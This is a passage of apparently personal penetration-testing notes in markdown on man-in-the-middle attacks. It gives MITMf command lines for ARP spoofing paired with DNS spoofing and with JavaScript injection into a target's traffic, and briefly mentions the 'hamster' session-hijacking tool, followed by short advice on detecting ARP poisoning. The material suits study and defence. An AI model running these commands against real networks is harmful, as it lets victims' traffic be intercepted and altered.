 `hamster`

- DNS Spoofing

Edit the dns-settings you want to change `vim /etc/mitmf/mitmf.conf`

`mitmf --arp --spoof --gateway AP_IP --target TARGET_IP -i INTERFACE --dns`

- Injecting code

`mitmf --arp --spoof --gateway AP_IP --target TARGET_IP -i INTERFACE --inject --js-file PATH/TO/FILE`

### Protect against arp poisoning

- Monitor ip-addresses and mac-address

useful tool is xarp

- Create static arp-tables (you need to manually configure every device)




## Useful links

(http://www.mediacollege.com/linux/command/linux-command.html)

